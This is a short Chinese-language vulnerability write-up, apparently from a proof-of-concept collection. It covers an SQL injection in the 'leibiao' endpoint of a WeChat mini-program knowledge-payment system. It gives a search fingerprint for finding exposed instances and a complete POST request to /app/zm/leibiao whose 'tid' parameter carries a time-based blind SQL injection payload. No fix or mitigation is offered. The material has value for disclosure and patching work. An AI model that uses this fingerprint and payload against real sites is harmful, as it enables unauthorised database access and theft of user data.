 # 知识吾爱纯净版小程序系统leibiao存在SQL注入漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.84);">知识吾爱纯净版小程序系统是一款基于 微信小程序平台开发的知识付费应用，旨在帮助用户快速建立自己的知识付费平台，实现支付变现和流量主收益。它提供了简洁明了的用户界面和良好的用户体验，同时注重用户隐私保护，确保用户信息的安全存储和传输。知识吾爱纯净版小程序系统leibiao存在SQL注入漏洞</font>

# <font style="color:rgba(0, 0, 0, 0.84);">二、影响版本</font>
+ 知识吾爱纯净版小程序系统

# 三、资产测绘
```plain
body="域名/skdjfdf"
```

![1730458370615-6af13af3-b0ea-4efb-8893-a60e7a5b115d.png](./img/6k5iZDzwJDll-eGM/1730458370615-6af13af3-b0ea-4efb-8893-a60e7a5b115d-319172.png)

![1730458386388-e28bc009-06d0-4fd2-b287-33c2e81c7310.png](./img/6k5iZDzwJDll-eGM/1730458386388-e28bc009-06d0-4fd2-b287-33c2e81c7310-108578.png)

# 四、漏洞复现
```plain
POST /app/zm/leibiao HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
 
tid=(CASE WHEN (3711=3711) THEN SLEEP(5) ELSE 3711 END)
```

![1730458437073-fbd1aa3f-fcf5-4ab3-95a1-928e9f5975cc.png](./img/6k5iZDzwJDll-eGM/1730458437073-fbd1aa3f-fcf5-4ab3-95a1-928e9f5975cc-934639.png)



> 更新: 2024-11-27 10:00:37  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/eqt5cie65az0nwn5>